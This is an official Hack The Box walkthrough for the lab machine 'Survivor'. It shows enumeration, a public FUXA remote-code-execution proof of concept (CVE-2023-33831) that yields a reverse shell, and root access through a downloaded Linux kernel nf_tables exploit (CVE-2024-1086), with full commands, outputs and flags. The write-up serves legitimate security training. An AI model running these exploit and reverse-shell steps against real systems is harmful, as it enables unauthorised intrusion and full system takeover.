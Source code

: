![](./survivor.assets/banner.png)

 <img src="./survivor.assets/htb.png" style="margin-left: 20px; zoom: 80%;" align=left />	<font size="10">Survivor</font> 		

​		29<sup>th</sup> April 2024 / Document No DYY.100.XX 		

​		Prepared By: k1ph4ru 		

​		Machine Author:  k1ph4ru 		

​		Difficulty: <font color=green>Easy</font>		

​		Classification: Official	 

# 

# Enumeration



 ## Nmap 

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.231.23 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

nmap -p$ports -sC -sV 10.129.231.23

Starting Nmap 7.93 ( https://nmap.org ) at 2024-04-29 15:43 EDT
Nmap scan report for test.ruinacademy.htb (10.129.231.23)
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

An initial `Nmap` scan reveals two open ports. On port `22` SSH is running and on port `80` an `Nginx` web server. We visit the website and are redirected to `http://survivor.htb`. We add the domain to our `/etc/hosts/` file to resolve it.

```
echo "10.129.231.23 survivor.htb" | sudo tee -a /etc/hosts
```

![landing](./Survivor.assets/landing.png)

The web server is hosting a website about the `apocalypse`, focusing on resilience and post-apocalyptic content. It also talks about community building based on post-crisis scenarios. One of the pages references a link to an app designed to aid in urban revival.

![link](./Survivor.assets/link.png)

If we click the link, we are redirected to `fuxa.survivor.htb`, we need to add this to the `/etc/hosts` file.

![fuxa](./Survivor.assets/fuxa.png)

# Foothold 

Here we see a `FUXA` instance running, accessing the `/editor` endpoint, and clicking at the top icon `?` reveals the version running is `Version 1.1.13-1204`.

![fuxa_version](./Survivor.assets/fuxa_version.png)

A quick Google search of the vulnerabilities affecting that particular version reveals [CVE-2023-33831](https://nvd.nist.gov/vuln/detail/CVE-2023-33831), and we also find [this](https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831) Python proof-of-concept script available. To run the exploit, we first start a `Netcat` listener on port `4444`.

```
nc -lnvp 4444

listening on [any] 4444 ...
```


We then fetch the exploit from `GitHub` and run it. 

```bash 
git clone https://github.com/rodolfomarianocy/Unauthenticated-RCE-FUXA-CVE-2023-33831.git
cd Unauthenticated-RCE-FUXA-CVE-2023-33831 
```

Here, encounter a few options in the proof-of-concept script where `rhost` is the hostname of the `FUXA` instance, `rport` is the port it is running on, `lhost` is our local IP, and `lport` is our local IP where our netcat listener is running.

```bash
 python3 exploit.py --help                                                               
usage: python exploit.py --rhost <ip> --rport <rport> --lhost <lhost> --lport <lport>

options:
  -h, --help     show this help message and exit
  --rhost RHOST  insert an rhost
  --rport RPORT  insert an rport
  --lhost LHOST  insert an lhost
  --lport LPORT  insert an lport
```

We proceed to run the script, specifying all the above options.

```bash
python3 CVE-2023-33831.py --rhost fuxa.survivor.htb --rport 80 --lhost 10.10.14.70 --lport 4444
```

Looking at our `Netcat` listener, we see that we get a shell as `jake`. 

```bash  
nc -lnvp 4444
listening on [any] 4444 ...

connect to [10.10.14.70] from (UNKNOWN) [10.129.231.23] 39270
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1000(jake) gid=1000(jake) groups=1000(jake)
$ 
```

We can get a more interactive shell by running `script /dev/null -c /bin/bash`  which initiates a pseudo-terminal session and starts a `Bash` shell, providing a more interactive command-line environment.

```
$ script /dev/null -c /bin/bash 
Script started, output log file is '/dev/null'.
jake@ubuntu:/opt/FUXA-1.1.13/server$ 
```

From here, we can read the user flag.

```bash 
jake@ubuntu:/opt/FUXA-1.1.13/server$ cd ~
cd ~
jake@ubuntu:~$ cat user.txt
cat user.txt
HTB{FuXa_ExPloIT_4_RC3}
jake@ubuntu:~$ 
```

# Privilege Escalation

Enumerating the system and examining the kernel version using `uname -a`, which provides system information, we find that the kernel version running is `5.15.0-71-generic`.

```bash 
jake@ubuntu:~$ uname -a
uname -a
Linux ubuntu 5.15.0-71-generic #78-Ubuntu SMP Tue Apr 18 09:00:29 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
jake@ubuntu:~$ 

```

A quick Google search for Linux kernel exploitation vulnerabilities leads us to [CVE-2024-1086](https://nvd.nist.gov/vuln/detail/CVE-2024-1086), which is a use-after-free vulnerability in the Linux kernel's netfilter: nf_tables component. This vulnerability allows local privilege escalation. We also come across [this](https://github.com/Notselwyn/CVE-2024-1086) proof-of-concept.  

We compile it to obtain an exploit, which we then copy to the host and run:

```
git clone https://github.com/Notselwyn/CVE-2024-1086
cd CVE-2024-1086
make
```

We then start a `Python` web server to host our exploit.

```bash
python3 -m http.server 7000  

Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...
```

 Let's change to the `/tmp` folder and use `wget` to download the exploit.

```bash 
cd /tmp
jake@ubuntu:/tmp$ wget http://10.10.14.70:7000/exploit
wget http://10.10.14.70:7000/exploit
--2024-04-29 20:20:06--  http://10.10.14.70:7000/exploit
Connecting to 10.10.14.70:7000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 161168 (157K) [application/octet-stream]
Saving to: ‘exploit’

exploit             100%[===================>] 157.39K   281KB/s    in 0.6s    

2024-04-29 20:20:07 (281 KB/s) - ‘exploit’ saved [161168/161168]
```

We can then change the permissions of the exploit and run it.

```bash 
jake@ubuntu:/tmp$ chmod +x exploit
chmod +x exploit
jake@ubuntu:/tmp$ ./exploit
./exploit
[*] creating user namespace (CLONE_NEWUSER)...
[*] creating network namespace (CLONE_NEWNET)...
[*] setting up UID namespace...
[*] configuring localhost in namespace...
[*] setting up nftables...
[+] running normal privesc
[*] waiting for the calm before the storm...
[*] sending double free buffer packet...
[*] spraying 16000 pte's...
[*] checking 16000 sprayed pte's for overlap...
[+] confirmed double alloc PMD/PTE
[+] found possible physical kernel base: 000000009d800000
[+] verified modprobe_path/usermodehelper_path: 000000009f68bb00 ('/sanitycheck')...
[*] overwriting path with PIDs in range 0->4194304...
/bin/sh: 0: can't access tty; job control turned off
# id 
id
uid=0(root) gid=0(root) groups=0(root)
```

We get a shell as `root`, and from here, we can obtain the root flag.

```bash 
# cat root.txt
cat root.txt
HTB{KeRnEnL_ExP_4_r00t}
# 
```





